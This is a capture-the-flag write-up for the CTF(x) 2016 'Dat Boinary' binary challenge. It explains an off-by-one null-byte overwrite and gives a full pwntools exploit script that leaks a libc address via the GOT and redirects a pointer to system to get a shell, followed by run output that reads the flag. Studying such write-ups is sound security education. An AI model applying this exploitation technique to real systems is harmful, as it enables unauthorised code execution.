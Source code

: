 ```yaml
---
title: "CTF(x) 2016 - Dat Boinary (Binary)"
header:
  overlay_image: /assets/images/ctfx2016/datboinary/header.jpg
  overlay_filter: 0.7
tags:
  - ctfx2016
  - writeup
  - pwn
---
```


Off-by-one error allows overwrite of a null byte that allows for a struct to be
completely filled with non-null bytes which tricks strlen into returning a large
value to read allowing overwrites of a pointer.

## Challenge Description

#### Points

250

## Solution

We were pretty happy to have solved this first during the competition.

![1]({{ site.url }}{{ site.baseurl }}/assets/images/ctfx2016/datboinary/1.png){: .align-center}

Here's the solving script:

```python
from pwn import *
import time

#context.log_level = "debug"

puts_got_address = 0x8049118

# Remote libc
puts_offset = 0x64da0
binsh_offset = 0x15f771
system_offset = 0x3e3e0

# Local libc
#puts_offset = 0x62b30
#binsh_offset = 0x15f803
#system_offset = 0x3b340

def read_bs(p):
    p.recv(5012)

def main():
#    p = process("./dat-boinary")
    p = remote("problems.ctfx.io", 1337)
    p.recv(0x51)

    # Send ID
    p.send("A"*8)
    p.recv(0xca)

    # Overwrite null byte
    p.sendthen("5)", "5\n")

    # Overwrite meme buffer
    meme_payload = "B"*12 + p32(puts_got_address) + "AAAAAAA\n"
    p.sendthen("3nt3r ur m3m3 id", "1\n")
    p.sendthen("5)", meme_payload)

    # Let us write to our new meme buffer
    p.sendline("2")
    p.sendline("5") # Write 4 bytes
    p.recvrepeat(0.5)

    # Leak something from the meme buffer
    meme_leak = p.sendthen("5)", "4\n")
    puts_address = u32(meme_leak[18:22])
    log.info("puts address: 0x%x" % puts_address)

    # Calculate libc base
    libc_base = puts_address - puts_offset
    log.info("libc base: 0x%x" % libc_base)
    system_address = libc_base + system_offset
    log.info("system: 0x%x" % system_address)
    binsh_address = libc_base + binsh_offset
    log.info("binsh: 0x%x" % binsh_address)

    p.sendline("3")
    p.send(p32(system_address))

    p.sendline("5")
    p.recvrepeat(1)
    log.success("Enjoy shell")

    p.interactive()

if __name__ == "__main__":
    main()
```

Running the script:

```shell
amon@Evanna:~/ctf/ctfx/binary/datboinary$ python exploit.py
[+] Opening connection to problems.ctfx.io on port 1337: Done
[*] puts address: 0xf75cdda0
[*] libc base: 0xf7569000
[*] system: 0xf75a73e0
[*] binsh: 0xf76c8771
[+] Enjoy shell
[*] Switching to interactive mode
$ id
uid=1000(dat_boinary) gid=1000(dat_boinary) groups=1000(dat_boinary)
$ ls
dat_boinary
flag.txt
$ cat flag.txt
ctf(0n1y_th3_fr35h35t_m3m3s)


$
```

Flag: **ctf(0n1y\_th3\_fr35h35t\_m3m3s)**
